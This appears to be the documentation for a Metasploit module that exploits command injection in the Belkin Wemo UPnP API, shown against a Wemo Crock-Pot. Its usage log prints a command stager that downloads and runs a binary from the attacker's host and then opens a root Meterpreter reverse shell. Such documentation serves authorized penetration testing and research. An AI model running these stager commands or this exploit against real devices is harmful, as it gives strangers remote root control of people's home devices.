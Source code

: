 ## Intro

This module exploits a command injection in the Belkin Wemo UPnP API via
the `SmartDevURL` argument to the `SetSmartDevInfo` action.

This module has been tested on a Wemo-enabled Crock-Pot, but other Wemo
devices are known to be affected, albeit on a different `RPORT` (49153).

## Setup

You may buy the device on Amazon at <https://www.amazon.com/dp/B00IPEO02C/>.

## Targets

```
Id  Name
--  ----
0   Unix In-Memory
1   Linux Dropper
```

## Options

**RPORT**

Set this to the Wemo device's UPnP port. In our testing, this was 49152
for Crock-Pot and 49153 for other devices.

## Usage

```
msf5 exploit(linux/upnp/belkin_wemo_upnp_exec) > run

[*] Started reverse TCP handler on 10.22.22.4:4444
[*] Wemo-enabled device detected
[*] Found firmware version: 2.00.6461
[*] 10.22.22.1:49152 - The target appears to be vulnerable.
[*] Using URL: http://0.0.0.0:8080/CKgRyLqQZtBY6
[*] Local IP: http://[redacted]:8080/CKgRyLqQZtBY6
[*] Generated command stager: ["wget -qO /tmp/aOLC8QmRUAMLeQXrxSLP2KuMYqEvD2P http://10.22.22.4:8080/CKgRyLqQZtBY6", "chmod +x /tmp/aOLC8QmRUAMLeQXrxSLP2KuMYqEvD2P", "/tmp/aOLC8QmRUAMLeQXrxSLP2KuMYqEvD2P", "rm -f /tmp/aOLC8QmRUAMLeQXrxSLP2KuMYqEvD2P"]
[*] Regenerated command stager: cp /bin/sh /tmp/aOLC8QmRUAMLeQXrxSLP2KuMYqEvD2P;wget -qO /tmp/aOLC8QmRUAMLeQXrxSLP2KuMYqEvD2P http://10.22.22.4:8080/CKgRyLqQZtBY6;/tmp/aOLC8QmRUAMLeQXrxSLP2KuMYqEvD2P;rm -f /tmp/aOLC8QmRUAMLeQXrxSLP2KuMYqEvD2P
[*] Client 10.22.22.1 (Wget) requested /CKgRyLqQZtBY6
[*] Sending payload to 10.22.22.1 (Wget)
[*] Transmitting intermediate stager...(164 bytes)
[*] Sending stage (1252312 bytes) to 10.22.22.1
[*] Meterpreter session 1 opened (10.22.22.4:4444 -> 10.22.22.1:4607) at 2019-02-12 14:37:37 -0600
[*] Server stopped.

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > sysinfo
Computer     : 10.22.22.1
OS           :  (Linux 2.6.21)
Architecture : mips
BuildTuple   : mipsel-linux-muslsf
Meterpreter  : mipsle/linux
meterpreter >
```
